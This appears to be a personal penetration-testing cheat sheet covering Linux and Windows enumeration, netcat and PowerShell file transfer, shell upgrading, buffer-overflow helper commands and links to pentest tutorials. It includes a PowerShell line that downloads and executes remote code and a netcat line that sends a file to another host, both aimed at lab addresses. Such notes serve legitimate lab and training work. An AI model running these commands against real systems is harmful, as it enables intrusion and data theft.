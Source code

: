 Tips
=================================================

LinuxEnum: 
--------------------------------------------------

find / -perm -4000 2>/dev/null   //SUID files    
uname -a                         //Posible Linux Kernel Exploit  

### Tools:
[enum4linux](https://github.com/portcullislabs/enum4linux) //enum all  
[pspy](https://github.com/DominicBreuker/pspy) //Process monitoring in LiveMod

WindowsEnum:
--------------------------------------------------
whoami /all  
systeminfo  

[WinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)  
[Sherlock](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)  

File Transfer:
--------------------------------------------------
### nc:
nc -l -p 4445 > ovrflw  
nc -w 5 10.10.14.18 4445 < /usr/local/bin/ovrflw  

### powershell:

iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/file')  
Invoke-WebRequest "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  
Invoke-RestMethod "http://10.10.10.10/file.exe" -OutFile "C:\Users\Public\file.exe"  

Interactive shell:
--------------------------------------------------
python3 -c "import pty;pty.spawn('/bin/bash')"  
Ctrl+Z  
stty raw -echo  
fg  

BufOverFlow:
--------------------------------------------------
ldd ovrflw | grep libc  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep system  
readreadelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit  

Create pattern: /opt/metasploit-framework/tools/exploit/pattern_create.rb -l 100  
Pattern Offset: /opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x0000000  


Hashes decrypt:
--------------------------------------------------
https://cmd5.ru/  
https://hashes.org/  

Links:
--------------------------------------------------
https://book.hacktricks.xyz/    //Cheat Sheet Pentesting all the thing   
https://github.com/egre55/ultimate-file-transfer-list/blob/master/README.md    //File Transfer Cheat Sheet  
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/   //SMB enumeration CheatSheet  
https://tcm-sec.com/2019/05/25/buffer-overflows-made-easy/    //BuferOverFlow tutor  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  //Linux PrivEsc Tips
https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html  //Reverse Shells  
https://www.fuzzysecurity.com/tutorials/16.html  //WindowsPrivEsc   
